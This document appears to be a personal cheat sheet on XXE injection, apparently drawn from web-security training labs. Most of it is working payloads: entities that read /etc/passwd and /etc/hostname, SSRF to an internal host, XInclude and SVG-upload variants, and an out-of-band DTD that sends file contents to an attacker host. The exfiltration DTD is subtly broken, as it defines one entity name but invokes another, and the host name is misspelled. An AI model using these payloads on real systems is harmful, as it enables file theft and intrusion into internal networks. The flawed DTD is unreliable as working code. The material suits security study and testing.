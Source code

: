 # XXE

<details>

<summary>Introduction</summary>

**What is XML**

* Some applications use the XML format to transmit data between the browser and the server.
* Its popularity has now declined in favor of the JSON format

**XXE Impact**

* Retrieve files
* Perform SSRF attacks

</details>

## Exploiting XXE to retrieve files

1. Introduce (or edit) a DOCTYPE element defining an external entity with the file path.
2. Edit a data value in the XML returned in the app's response to use the defined external entity.

* Note: to systematically test for XXE, test each data node in the XML individually using your defined entity to see if it appears in the response.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck> 
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

## Exploiting XXE to perform SSRF attacks

* Reflected SSRF
* Bind SSRF

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```

## Blind XXE

### Out-of-band (OAST) techniques <a href="#detecting-blind-xxe-using-out-of-band-oast-techniques" id="detecting-blind-xxe-using-out-of-band-oast-techniques"></a>

**Detection**

* Detecting as SSRF
* Regular entities are blocked? Bypass via XML parameter entities
  * ```xml
    <!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://attacker.com"> %xxe; ]>
    ```
  * This XXE payload declares an XML parameter entity called `xxe` and then uses the entity within the DTD

**Exploitation**

1. Start a web server and host on `http://YOUR-DTD-URL/example.dtd` this malicious dtd.

```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % stack "<!ENTITY &#x25; exfil SYSTEM 'http://attaccker.com/?x=%file;'>">
%eval;
%exfil;
```

2. Add this external entity

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://YOUR-DTD-URL/example.dtd"> %xxe;]>
```

## Finding hidden attack surface for XXE injection

**First case** - Requests that contain data in XML format

**Second case -** Requests that do not contain any XML

* **Detection**: Add entity reference that doesn't exist to cause an error  -> ok it's XML ...
* XInclude attacks
  * Some applications receive client-submitted data, embed it on the server-side into an XML document, and then parse the document
  * XInclude is a part of the XML specification that allows an XML document to be built from sub-documents
  * ```xml
    <foo xmlns:xi="http://www.w3.org/2001/XInclude">
    <xi:include parse="text" href="file:///etc/passwd"/></foo>
    ```
* Via file upload
  * Some common file formats use XML or contain XML subcomponents. Examples of XML-based formats are office document formats like DOCX and image formats like SVG
  * ```xml
    <?xml version="1.0" standalone="yes"?>
    <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
    <svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
        <text font-size="16" x="0" y="16">&xxe;</text>
    </svg>
    ```
  * This works if it's used image processing library & support SVG images & allow external entity
* Via modified content type
  * To do
